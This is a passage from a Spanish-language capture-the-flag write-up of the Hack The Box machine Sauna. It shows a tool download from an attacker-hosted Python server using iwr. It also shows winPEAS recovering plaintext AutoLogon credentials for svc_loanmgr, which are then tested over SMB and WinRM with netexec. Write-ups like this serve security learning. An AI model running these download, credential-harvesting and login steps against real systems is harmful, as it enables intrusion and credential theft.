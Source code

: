 
Pero no, tenemos [-] en el output de netexec.. Esto quiere decir que no podemos conectarnos a través de winRM con este usuario. No obstante, podríamos intentar otras formas de pivotar desde el usuario fsmith a hsmith.

Sin embargo, antes de seguir con este vector, vamos a explorar más a fondo la máquina víctima.

Vamos a compartir la herramienta WinPEAS con la máquina víctima. Podemos hacerlo de diferentes maneras. En esta ocasión, vamos a hacerlo a través de servidor http montado con python.

- Primero creamos carpeta temporal en máquina víctima:

``mkdir C:\temp``

![Pasted image 20250314110043](https://github.com/user-attachments/assets/9dc4dc5f-6dc5-45a2-9263-3b46662f5956)

Una vez creada la carpeta nos movemos a ella.

- Después, desde la máquina atacante, levantamos un servidor http en el directorio que tengamos winPEAS.

``python3 -m http.server 80``

- Acto seguido, desde la máquina víctima, realizamos la solicitud del recurso winPEASx64.exe, apuntando a nuestro servidor http, es decir, nuestra máquina atacante.

``iwr http://10.10.14.8/winPEASx64.exe -o winpeas.exe``

![Pasted image 20250314133433](https://github.com/user-attachments/assets/0a0f925b-fbbb-4a45-ba96-a0d53b8f620e)

Una vez hemos compartido la herramienta, la ejecutamos:

``.\winpeas.exe``

Si echamos un vistazo a su output encontramos credenciales de AutoLogon:

![Pasted image 20250314133611](https://github.com/user-attachments/assets/ee9fc97f-c9ff-41f7-80f5-69ecf65c269b)

svc_loangmanager : Moneymakesthworldgoround!

No obstante, dada la enumeración previa que hicimos de usuarios a través de RPC, sabemos que el usuario al que probablemente está haciendo referencia es "svc_loanmgr", el cual también aparece, más abajo, en el output de winpeas:

![Pasted image 20250314133720](https://github.com/user-attachments/assets/11c1c68f-33b6-4c37-a9e0-5c820f2964c2)

Teniendo estas posibles credenciales, las validamos con netexec.

``netexec smb 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'``

![Pasted image 20250314133847](https://github.com/user-attachments/assets/cde6bdaf-5148-4271-8626-e98de4e8c2d2)

Son credenciales válidas.
¿Formará parte el usuario svc_loanmgr del grupo Remote Management Users? Esto nos permitiría conectarnos con evil-winrm. Vamos a comprobarlo.

``netexec winrm 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'``

![Pasted image 20250314134001](https://github.com/user-attachments/assets/5967c1b7-0fa3-4478-baf9-64877326abc8)
